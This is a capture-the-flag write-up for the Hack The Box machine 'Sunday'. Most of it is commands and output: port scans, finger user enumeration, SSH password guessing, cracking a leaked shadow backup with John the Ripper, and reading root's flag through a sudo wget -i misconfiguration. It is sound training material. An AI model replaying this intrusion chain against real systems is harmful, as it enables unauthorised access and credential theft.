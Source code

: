 ```yaml
---
title:  "Hackthebox - Sunday"
date:   2018-09-30 16:30:18 +0200
categories: hackthebox
published: true
---
```


{% include image-center.html url="/assets/htb-sunday.png" alt="Info Card" %}

## user

In order to find out which ports are open, I used `nmap`. 

```bash
# Nmap 7.70 scan initiated Sun Sep 9 15:07:47 2018 as: nmap -sV -sC -oA sunday 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.038s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
79/tcp  open  finger  Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/2          2 Sun 12:28  10.10.14.43         \x0D
| sunny    sunny                 pts/3          8 Sun 12:57  10.10.13.14         \x0D
|_sunny    sunny                 pts/4          8 Sun 12:36  10.10.13.14         \x0D
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 9 15:08:47 2018 -- 1 IP address (1 host up) scanned in 60.16 seconds
```

Two open ports were found: `finger` is running on TCP port 79 and `rpcbind` on TCP port 111.

RPC enumeration failed with an authentication error:

```bash
$ rpcinfo -p 10.10.10.76
10.10.10.76: RPC: Port mapper failure - Authentication error
$ showmount -e 10.10.10.76
clnt_create: RPC: Port mapper failure - Authentication error
```

It is possible to enumerate usernames when the default Solaris `finger` service is in use. 

The response to a `finger` query using an existing user name differs from the response to non-existing users:

```bash
$ finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            pts/3        <Apr 24 10:37> sunday
$ finger asdf@10.10.10.76
Login       Name               TTY         Idle    When    Where
asdf                  ???
```

Brute-forcing usernames could be done with a self-written script, but it is more comfortable to use the existing Metasploit module for that purpose:

```bash
msf > use auxiliary/scanner/finger/finger_users
msf auxiliary(scanner/finger/finger_users) > show options

Module options (auxiliary/scanner/finger/finger_users):

   Name        Current Setting                                                Required  Description
   ----        ---------------                                                --------  -----------
   RHOSTS                                                                     yes       The target address range or CIDR identifier
   RPORT       79                                                             yes       The target port (TCP)
   THREADS     1                                                              yes       The number of concurrent threads
   USERS_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of default UNIX accounts.

msf auxiliary(scanner/finger/finger_users) > set RHOSTS 10.10.10.76
RHOSTS => 10.10.10.76
msf auxiliary(scanner/finger/finger_users) > run

[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: sunny
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: sammy
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: adm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: lp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: uucp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nuucp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: dladm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: listen
[+] 10.10.10.76:79        - 10.10.10.76:79 Users found: adm, dladm, listen, lp, nuucp, sammy, sunny, uucp
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Except of the standard users on UNIX systems, two usernames could be used for credential guessing: `sunny` and `sammy`. 

Every box on htb had an SSH port open, but no SSH port showed up in the `nmap` scan. Assuming that the SSH port is on a non-standard port, I re-did the scan including all TCP ports. The parameters `--min-rate` and `--max-retries` were used as advised in the [Sunday](https://forum.hackthebox.eu/discussion/703/hint-for-sunday/p2) thread from the HTB forums because scanning all ports took forever. The chosen settings ensure that `nmap` tries to send at least 100 packets per second. When increading the number of transmitted packets, `nmap` tries to keep the accuracy at the same level by increasing the number of retries, which were limited to 5 in order to make the scan terminate faster.

```bash
# Nmap 7.70 scan initiated Sun Sep 9 16:47:43 2018 as: nmap -p- -sV -sC --min-rate 1000 --max-retries 5 -oA sunday-allports 10.10.10.76
Warning: 10.10.10.76 giving up on port because retransmission cap hit (5).
Nmap scan report for 10.10.10.76
Host is up (0.031s latency).
Not shown: 52460 filtered ports, 13070 closed ports
PORT      STATE SERVICE   VERSION
79/tcp    open  finger    Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/2          9 Sun 14:28  10.10.14.43         \x0D
| sunny    sunny                 pts/3          4 Sun 14:46  10.10.13.69         \x0D
|_sunny    sunny                 pts/4            Sun 14:36  10.10.13.14         \x0D
111/tcp   open  rpcbind   2-4 (RPC #100000)
22022/tcp open  ssh       SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
34313/tcp open  smserverd 1 (RPC #100155)
60406/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 9 16:55:04 2018 -- 1 IP address (1 host up) scanned in 441.06 seconds
```

And indeed, there is an SSH server listening on Port 22022.

My kali first system refused to connect to the SSH server with the error message `Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1`. However, the legacy key exchange algorithm required by the server can be explicitly activated by using `-o KexAlgorithms=+diffie-hellman-group1-sha1`.

Before trying to crack the SSH login, I made some obvious guesses - and succeeded with the user name `sunny` and the password `sunday`. 

Great, I got SSH access to the box without too much effort. However, the `user.txt` file containing the flag was placed on the Desktop of the user `sammy` and `sunny` had no read permissions on that file:

```bash
sunny@sunday:~$ find / -name user.txt 2> /dev/null
/export/home/sammy/Desktop/user.txt
sunny@sunday:~$ stat /export/home/sammy/Desktop/user.txt 
  File: `/export/home/sammy/Desktop/user.txt'
  Size: 33              Blocks: 2          IO Block: 512    regular file
Device: 2d90008h/47775752d      Inode: 7           Links: 1
Access: (0400/-r--------)  Uid: (  101/   sammy)   Gid: (   10/   staff)
Access: 2018-09-09 13:12:08.053707365 +0530
Modify: 2018-04-15 20:37:36.951822952 +0530
Change: 2018-04-15 20:37:47.065051304 +0530
```

Somehow, I needed to escalate privileges to the user `sammy`.

I used [LinEnum](https://github.com/rebootuser/LinEnum) for scanning the box for possible attack vectors, but the script did not output interesting results.

However, when looking manually for interesting files, I found a folder named `backup` in the root directory of the box. This folder contained a file that looked like a backup of the `/etc/shadow` file. This file was owned by root but readable by everyone! The backup file contained hashes of passwords for sammy and sunny:

```bash
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Maybe it is possible to crack those hashes and get the password of `sammy`...

In order to crack those hashes with john, I got the entries for sammy and sunny from `/etc/passwd`, which is readable for everyone on UNIX systems by default.

```bash
sammy:x:101:10:sammy:/export/home/sammy:/bin/bash
sunny:x:65535:1:sunny:/export/home/sunny:/bin/bash
```

I merged those files using the `unshadow` tool: 

```bash
$ unshadow passwd.txt shadow.txt | tee hashes.txt
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:101:10:sammy:/export/home/sammy:/bin/bash
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:65535:1:sunny:/export/home/sunny:/bin/bash
```

Afterwards, I used [John the Ripper](https://www.openwall.com/john/) for cracking those hashes: 

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Warning: detected hash type "sha256crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
sunday           (sunny)
cooldude!        (sammy)
2g 0:00:03:24 DONE (2018-09-09 15:35) 0.009775g/s 995.9p/s 1008c/s 1008C/s coolster..chs2009
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password worked for ssh login as sammy and I could finally read the `user.txt` file containing the flag. 

## root

Getting root was pretty straightforward. Sammy was allowed to run `wget` as root with sudo without providing a password:

```bash
sammy@sunday:~$ sudo -l 
User sammy may run the following commands on this host:
	(root) NOPASSWD: /usr/bin/wget
```

This means that it is probably just necessary to find a way how to make `wget` read the flag from the file `/root/root.txt`.

I consulted the man page of `wget` and found an interesting option: it is possible to read URLs from an input file. Maybe this option can be used for letting `wget` read the flag file...

```bash
sammy@sunday:~$ man wget
[snip]

 -i file
 --input-file=file
	 Read URLs from file.  If - is specified as file, URLs
	 are read from the standard input.  (Use ./- to read from
	 a file literally named -.)

	 If this function is used, no URLs need be present on the
	 command line.  If there are URLs both on the command
	 line and in an input file, those on the command lines
	 will be the first ones to be retrieved.  The file need
	 not be an HTML document (but no harm if it is)---it is
	 enough if the URLs are just listed sequentially.

	 However, if you specify --force-html, the document will
	 be regarded as html.  In that case you may have problems
	 with relative links, which you can solve either by
	 adding "<base href="url">" to the documents or by
	 specifying --base=url on the command line.

[snip]
```

I hoped that an error message will show the value of the URL, because the flag file does not contain a valid URL. And indeed, it worked:

```bash
sammy@sunday:~$ sudo wget -i /root/root.txt 
/root/root.txt: Invalid URL ****************************f9b8: Unsupported scheme
No URLs found in /root/root.txt.
```
